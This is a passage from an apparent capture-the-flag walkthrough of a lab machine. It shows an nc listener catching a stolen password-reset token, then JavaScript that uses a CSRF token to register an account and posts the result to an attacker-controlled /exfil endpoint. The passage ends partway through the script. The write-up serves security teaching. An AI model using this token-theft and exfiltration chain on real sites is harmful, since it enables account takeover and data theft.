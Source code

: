 ```
sleep $sleep
kill $FAKEDNS 

```

Running that returns a token to the `nc` listening on 81:

```

oxdf@parrot$ nc -lnvp 81
listening on [any] 81 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.232] 8010
POST /exfil HTTP/1.1
Host: gymxcrossfit.htb:81
User-Agent: Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 36
Origin: http://gymxcrossfit.htb
Connection: keep-alive
Referer: http://gymxcrossfit.htb/password-reset.php?token=f62cc32e31940141fde843ff01fc43cca36b374b66dfdeb011d789b2ae6c12994a4c140e5d4136e642f7cfba41b485ecddbb4ec0e4e490de644eb1120204efd6

iqvDUFy9-oGWUv-59IYoxsjlZGtnrPDSZzZ0

```

#### Register

Now that I can fetch a token, I’ll try to use it to register a user on the site. I don’t have an example of this request because it was removed from the site. But based on what I found above, I have the field names from the form, and I can assume it uses the same format as the `/api/login` POST.

I’ll add more JavaScript to try that request:

```

<html>
  <head>
    <title>pwned</title>
  </head>
  <body>
    <script>
      var req_token = new XMLHttpRequest();
      req_token.onreadystatechange = function() {
        if (req_token.readyState == 4) {
          // With token, proceed to register
          var token = JSON.parse(req_token.response).token;
          var req_register = new XMLHttpRequest();
          req_register.onreadystatechange = function() {
            if (req_register.readyState == 4) {
              // Once registration returns, send result back
              var req_exfil = new XMLHttpRequest();
              req_exfil.open("POST", "http://gymxcrossfit.htb:81/exfil", false);
              req_exfil.send("resp: " + req_register.response);
            }
          }
          req_register.open("POST", "http://crossfit-club.htb/api/signup")
          req_register.withCredentials = true;
          req_register.setRequestHeader('X-CSRF-TOKEN', token);
          req_register.setRequestHeader('Content-Type', 'application/json');
          req_register.send('{"username": "0xdf", "email": "0xdf@developer.htb", "password": "0xdf0xdf", "confirm": "0xdf0xdf"}');
        }
```